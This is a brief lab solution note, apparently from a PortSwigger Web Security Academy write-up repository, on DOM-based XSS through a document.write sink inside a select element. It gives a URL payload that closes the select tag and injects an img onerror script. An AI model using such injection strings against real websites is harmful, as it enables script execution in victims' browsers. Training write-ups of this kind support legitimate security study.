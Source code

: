 #  DOM XSS in document.write sink using source location.search inside a select element

![image](https://github.com/offensivecyber03/PortSwigger/assets/71892943/283bc7bf-1205-4f13-904b-0e4a0ba39e7e)

Last change to url:
`product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>`<br>
 Explanation on you tube:
 https://youtu.be/AsR-YeaD5Iw


